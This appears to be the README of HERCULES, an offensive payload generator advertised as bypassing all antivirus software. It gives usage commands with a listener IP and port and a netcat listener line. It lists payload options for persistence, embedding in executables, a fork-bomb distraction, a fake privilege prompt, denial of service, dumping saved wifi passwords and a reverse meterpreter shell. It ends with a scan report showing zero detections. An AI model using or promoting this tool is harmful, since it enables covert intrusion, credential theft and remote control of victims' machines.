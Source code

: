 # HERCULES [![License](https://img.shields.io/github/license/mashape/apistatus.svg?maxAge=2592000)](https://raw.githubusercontent.com/EgeBalci/HERCULES/master/LICENSE)  [![Donate](https://img.shields.io/badge/Donate-Patreon-green.svg)](http://patreon.com/user?u=3556027)
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)

Example : ./HERCULES 192.168.2.10 4444 -p windows -a x86 -l dynamic

Example Video : https://youtu.be/vYnaZpWxwxY

Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

     ~PERSSISTENCE                     Installs a persistence module

     ~DISTRACT                         Executes a fork bomb bat file for distraction   

     ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

     ~DOS -A "www.targetsite.com"      Starts a denial of service atack

     ~WIFI-LIST 					   Dumps all wifi history data with passwords

     ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence may atract anti virus softwares !
- Please don't disribute any samples to Virus Total !

# AV AWARENESS

File Name: Payload.exe
File Size: 7.57 MB
Scan Date: 11:06:04 | 06/08/2016
Detected by: 0/35

MD5: 752e10459e0624beb6747ae85f8f9261
SHA256: 491bab16a4701102f201800322cf06bb95229dec012b5703e33be77d74b672a6
Verified By NoDistribute: http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

- A-Squared:  Clean
- Ad-Aware:  Clean
- Avast:  Clean
- AVG Free:  Clean
- Avira:  Clean
- BitDefender:  Clean
- BullGuard:  Clean
- Clam Antivirus:  Clean
- Comodo Internet Security:  Clean
- Dr.Web:  Clean
- ESET NOD32:  Clean
- eTrust-Vet:  Clean
- F-PROT Antivirus:  Clean
- F-Secure Internet Security:  Clean
- FortiClient:  Clean
- G Data:  Clean
- IKARUS Security:  Clean
- K7 Ultimate:  Clean
- Kaspersky Antivirus:  Clean
- McAfee:  Clean
- MS Security Essentials:  Clean
- NANO Antivirus:  Clean
- Norman:  Clean
- Norton Antivirus:  Clean
- Panda CommandLine:  Clean
- Panda Security:  Clean
- Quick Heal Antivirus:  Clean
- Solo Antivirus:  Clean
- Sophos:  Clean
- SUPERAntiSpyware:  Clean
-Trend Micro Internet Security:  Clean
- Twister Antivirus:  Clean
- VBA32 Antivirus:  Clean
- VIPRE:  Clean
- Zoner AntiVirus:  Clean
				

# DONATIONS

- http://patreon.com/user?u=3556027
